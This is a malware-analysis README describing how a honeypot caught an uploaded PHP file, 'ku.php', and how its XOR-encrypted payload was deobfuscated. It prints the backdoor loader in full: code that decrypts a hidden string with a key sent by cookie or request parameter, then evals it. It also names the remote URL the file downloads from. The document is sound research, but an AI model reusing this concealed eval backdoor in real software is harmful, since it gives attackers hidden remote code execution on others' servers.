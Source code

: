 # xor-decoding
## Decoding Exclusive-or encoded malware payloads

During the summoer of 2014, I [wrote and ran](http://stratigery.com/phparasites/)
a honey pot that emulated a poorly maintained WordPress 2.9 installation. I ended up
including a simulated ["WSO" web shell](https://github.com/bediger4000/malware-phylogeny)
as part of the honey pot, because attackers included WSO web shells in so many of
their fake WordPress plugins. I had a two phase honey pot: first phase simulated
WordPress, the second phase simulated WSO.

Attackers use WSO as a file uploader more than they use it for anything else. I find
this puzzling, as WSO includes so much more functionality. I'm not a bottom feeding
WordPress cracker, but it would make more sense to have a smaller-size file uploader
to me. Attackers uploaded many pieces of malware using the honey pot's
simulated WSO web shell. One of these uploads occurred Wed Aug 28 04:05:52 2013 MDT.
The simulated WSO web shell kept a log of its environment, PHP "superglobal" values,
HTTP cookie values and many other things. The simulated web shell also allows file
uploads by emulating WSO's `uploadFile` command, part of the `FilesMan` "action".

The attacker, from 95.211.231.143 at the time, uploaded a file named "ku.php".
Unfortunately, no attacker tried to GET or POST to a "ku.php" URL.

I've included the simulated WSO web shell's logged data as file
[95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAH.mod_system.scans](https://github.com/bediger4000/xor-decoding/blob/master/95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAH.mod_system.scans)
in this repo, and the uploaded file as [95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAHfile](https://github.com/bediger4000/xor-decoding/blob/master/95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAHfile).

My goal is to document how to de-obfuscate and reverse engineer the "ku.php" file,
which ultimately involved finding XOR-encoding key strings.

## Initial Reading of ku.php

My initial read of `ku.php` showed me that, when executed, it tried to download
the contents of `http://smtp.botabota.biz/ku/ku.txt` to a local file, and return
the URL where someone could access the local file from the Internet. The last line
of `ku.php` didn't fit with the rest of the code. The last line was 12,941 characters
long, and contained some ugly code. After pretty printing, that 12,941 character
line looked like this:

    <?php
    for (
          $o = 0, $e = 'string of random-appearing characters',$d = '';
          @ord($e[$o]);
          $o++)
    ) {
        if ($o < 16) {
            $h[$e[$o]] = $o;
        } else {
            $d .= @chr(($h[$e[$o]] << 4) + $h[$e[++$o]]);
        }
    }
    if (!@isset($_SERVER)) {
        $_COOKIE =& $HTTP_COOKIE_VARS;
        $_POST =& $HTTP_POST_VARS;
        $_GET =& $HTTP_GET_VARS;
    }
    $k = $_COOKIE['key'];
    if (empty($k)) {
        $k = $_POST['key'];
    }
    if (empty($k)) {
        $k = $_GET['key'];
    }
    if (!@function_exists('decrypt')) {
        eval('function decrypt($e,$k){if(!$k){return;}$el=@strlen($e);$kl=@strlen($k);$rl=$el%$kl;$fl=$el-$rl;for($o=0;$o<$fl;$o+=$kl){$p=@substr($e,$o,$kl);$d.="$k"^"$p";}if($rl){$p=@substr($e,$fl,$rl);$k=@substr($k,0,$rl);$d.="$k"^"$p";}return($d);}');
    }
    $d = @decrypt($d, $k);
    eval($d);

`ku.php` seemed to have been backdoored: some oddly encoded bytes get decoded,
then decrypted, and then evaluated. The decryption function was included in `ku.php`, and
the decryption key would arrive as part of the HTTP request for `ku.php`.

Pretty-printing `function decrypt()` from the string in `ku.php` showed me that whatever
code was concealed was actually XOR-encoded. A key in the form of a printable text string
would be bitwise exclusively or-ed with the decoded bytes.

    function decrypt($e, $k)
    {
        if (!$k) {
            return;
        }
        $el = @strlen($e);
        $kl = @strlen($k);
        $rl = $el % $kl;
        $fl = $el - $rl;
        for ($o = 0; $o < $fl; $o += $kl) {
            $p = @substr($e, $o, $kl);
            $d .= "{$k}" ^ "{$p}";
        }
        if ($rl) {
            $p = @substr($e, $fl, $rl);
            $k = @substr($k, 0, $rl);
            $d .= "{$k}" ^ "{$p}";
        }
        return $d;
    }

Unfortunately, no attacker ever tried to access the "ku.php" code, so I did not
have the text string key.

## Getting the xor-encoded payload

1. Extract the 12,941 character payload, which comprises the last line of file `95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAHfile`.
2. Change `eval($d)` call to `print($d);` in that last line. This gives us the first intermediate code.
3. Execute the first intermediate code.
4. Delete some lines in the output of the first intermediate code that pertain to finding the key string, and again change `eval(` to `print(`. That gives us the second intermediate code.
5. Execute the second intermediate code, whose output is the XOR-encoded mystery payload.

Executing `make puzzling.dat` does those 5 steps, with the XOR-encoded mystery paylod ending up in file `puzzling.dat`
The file `makefile` documents how to do all those steps with a Linux shell.

## Finding key size

[Hamming Distance](https://en.wikipedia.org/wiki/Hamming_distance)

    $ make keysize
    $ ./keysize ciphertextfilename > dat
